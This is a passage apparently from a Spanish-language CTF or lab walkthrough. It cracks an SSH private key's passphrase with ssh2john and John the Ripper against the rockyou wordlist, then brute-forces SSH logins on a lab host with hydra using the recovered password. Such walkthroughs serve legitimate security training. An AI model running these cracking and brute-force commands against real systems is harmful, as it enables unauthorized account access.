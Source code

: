 - Usamos de nuevo **John The Ripper** pero con la **id_rsa**
    
    ```bash
    ssh2john id_rsa > hashssh 
    ```
    
    ![image.png](./imagenes/image%20236.png)
    

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashssh
```

![image.png](./imagenes/image%20237.png)

**babygirl**

- Vamos a probar fuerza bruta con el SSH usando el **archivo users**
    
    ```bash
    hydra -L users  -p babygirl ssh://10.0.3.38
    ```
    
    ![image.png](./imagenes/image%20238.png)
    
